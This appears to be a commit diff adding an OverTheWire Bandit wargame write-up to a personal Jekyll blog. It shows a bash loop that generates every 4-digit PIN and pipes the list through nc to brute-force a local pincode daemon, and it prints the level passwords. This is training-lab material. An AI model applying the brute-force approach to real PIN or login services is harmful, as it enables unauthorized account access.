

Before and after one commit to danieldavidson/danieldavidson.github.io, a Jekyll site: the page built from _posts/2021-04-11-overthewire-bandit-21-25.md, in a window 1280 px wide and 1400 px high, scrolled down 5376 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6006 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Post update

````diff
--- a/_posts/2021-04-11-overthewire-bandit-21-25.md
+++ b/_posts/2021-04-11-overthewire-bandit-21-25.md
@@ -261,3 +261,66 @@ Script got deleted, which means cron executed it and we got our password!
 > **Password:** UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
 
 ---
+
+## Bandit 25
+
+[http://overthewire.org/wargames/bandit/bandit25.html](http://overthewire.org/wargames/bandit/bandit25.html)
+
+A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
+
+Our first bash for loop! You may want to read more about it [here](http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-7.html).
+
+First let's see how the daemon behaves.
+
+```console
+bandit24@bandit:/tmp/bd2425$ nc localhost 30002
+I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
+Wrong! Please enter the correct pincode. Try again.
+```
+
+Okay looks like if we enter the wrong pin then it ruturns an error and it allows multiple input. So now we can create essentially a dictionary file with the format "password pin" for 0000-9999.
+
+Let's create a temp directory and our dictionary:
+
+```console
+bandit24@bandit:/tmp/bd2425$ `for i in $(seq 0000 9999); do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> pincodes.txt; done  `
+bandit24@bandit:/tmp/bd2425$ `head pincodes.txt`
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 3
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 4
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 6
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 7
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 8
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9
+bandit24@bandit:/tmp/bd2425$ `tail pincodes.txt`
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9990
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9991
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9992
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9993
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
+UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999
+```
+
+Looks good now let's feed it to `nc` and invert-match using `grep`.
+
+```console
+bandit24@bandit:/tmp/bd2425$ `nc -nv 127.0.0.1 30002 < pincodes.txt | grep -v Wrong`
+Connection to 127.0.0.1 30002 port [tcp/*] succeeded!
+I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
+Correct!
+The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
+Exiting.
+```
+
+> **Username:** bandit24
+> **Password:** UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
+
+---
````
Also changed, not shown: _posts/2021-04-12-overthewire-bandit-26-30.md (added, +23 -0 lines).
